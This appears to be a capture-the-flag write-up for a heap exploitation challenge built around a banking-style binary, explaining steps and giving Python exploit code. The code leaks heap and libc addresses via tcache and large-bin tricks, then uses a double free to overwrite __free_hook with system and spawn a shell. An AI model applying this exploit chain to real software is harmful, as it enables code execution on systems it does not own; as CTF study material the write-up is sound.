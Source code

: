 Firstly, it is essential to accumulate money. Through local debugging, you can determine that the original cash was `0x190`.

```python
login('114514', '114514')

put(0x190)
cash = 0x190
while cash <= 1000000:
    deposit(cash)
    put(cash)
    cash += cash
```

You can exploit `realloc` to create a `tcache` by reallocating one large and one small size heap chunk, obtaining the `heap_addr`. However, keep in mind that to read an address, you need to send money to `admin`, who requires at least `0x1E` cash. This means that you will read at least the address `8 * 0x1E + g_malloc`. Therefore, you need to create a `tcache` at least at `0xf0 + g_malloc` to achieve the desired result. Since `realloc` can only reach a maximum size of `0x100`, carefully consider the construction process.

After acquiring the `heap_addr`, giving you the ability to free any heap, you can construct a fake `chunk` within the `large_bin` range, leading to a direct pointer to `main_arena`, enabling retrieval of `libc_base`, followed by obtaining `free_hook` and `system`.

```python
transfer('guest', 6, p64(0x431).rjust(0x10, b'\x00'), False)
for _ in range(40):
    transfer('guest', 6, b'1')
transfer('hacker', 51, heap_addr+0x3c0)
malloc_hook_addr = int(transfer('admin', 0x120 / 8), 16) - 96 - 0x10
libc_base = malloc_hook_addr - libc.sym['__malloc_hook']
free_hook_addr = libc_base + libc.sym['__free_hook']
system_addr = libc_base + libc.sym['system']

```

Now, you can proceed with exploiting the `Double Free` vulnerability to target `free_hook`.

```python
for i in range(7):
    transfer('hacker', 51, heap_addr+0x3f0+i*0x20)
transfer('hacker', 51, heap_addr+0x3f0+7*0x20)
transfer('hacker', 51, heap_addr+0x3f0+8*0x20)
transfer('hacker', 51, heap_addr+0x3f0+7*0x20)

for _ in range(7):
    transfer('guest', 6, b'/bin/sh\x00')
transfer('guest', 6, p64(free_hook_addr-0x8).ljust(0x10, b'\x00'), False)
transfer('guest', 6, b'')
transfer('guest', 6, b'')
transfer('guest', 6, p64(system_addr).rjust(0x10, b'\x00'), False)
transfer('hacker', 51, heap_addr+0x3f0)

sh.interactive()
```
